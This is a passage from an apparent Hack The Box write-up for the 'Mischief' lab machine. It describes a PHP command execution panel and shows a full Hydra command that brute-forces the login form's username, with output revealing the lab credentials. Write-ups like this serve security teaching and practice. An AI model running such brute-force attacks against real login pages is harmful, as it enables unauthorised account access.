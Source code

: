 ```
Nmap done: 1 IP address (1 host up) scanned in 19.58 seconds
```

### Command execution panel

The web server is running a PHP application:

![Command Execution Panel](/assets/images/htb-writeup-mischief/cep1.png)

![Command Execution Panel Login](/assets/images/htb-writeup-mischief/cep2.png)

It's probably using the 2nd password we found but we don't know the username (loki doesn't work here.)

We'll use Hydra to bruteforce the username:

```
root@violentunicorn:~/hackthebox/Machines/Mischief# hydra -I -L /root/SecLists/Usernames/top_shortlist.txt -p trickeryanddeceit mischief http-post-form "/login.php:user=^USER^&password=^PASS^:credentials do not match"
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2018-07-08 19:37:12
[DATA] max 11 tasks per 1 server, overall 11 tasks, 11 login tries (l:11/p:1), ~1 try per task
[DATA] attacking http-post-form://mischief:80//login.php:user=^USER^&password=^PASS^:credentials do not match
[80][http-post-form] host: mischief   login: administrator   password: trickeryanddeceit
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2018-07-08 19:37:13
```
